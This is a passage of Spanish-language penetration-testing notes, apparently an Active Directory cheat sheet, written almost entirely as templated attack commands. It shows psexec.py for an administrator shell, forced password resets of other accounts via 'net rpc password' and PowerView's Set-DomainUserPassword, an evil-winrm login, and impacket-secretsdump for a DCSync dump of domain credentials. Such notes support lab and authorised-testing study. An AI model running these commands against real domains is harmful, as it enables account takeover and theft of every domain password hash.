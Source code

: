 Y nos conectamos con `psexec`:

```shell
psexec.py -n -k <DOMINIO>/administrator@<HOSTNAME>.<DOMINIO> cmd.exe
```

### Sobre usuario

Desde nuestra máquina:

```shell
net rpc password <USUARIO_A_PWNEAR> -U '<DOMINOI>/<USUARIO_PWNEADO>%<CONTRASEÑA>' -S <HOSTNAME>.<DOMINIO>
```

Desde la máquina windows:

```powershell
Import-Module .\PowerView.ps1
$pass = ConvertTo-SecureString '<CONTRASEÑ>' -AsPlainText -Force
Set-DomainUserPassword -Identity <USUARIO> -AccountPassword $pass
evil-winrm -i <IP> -u <USUARIO> -p <CONTRASEÑA>
```

## GetChangesAll

Esto viene a ser que podemos usar `secretsdump` para efectuar un DCSync attack:

```shell
impacket-secretsdump <DOMINIO>/<USUARIO>:'<CONTRASEÑA>'@<HOSTNAME>.<DOMINIO>
```



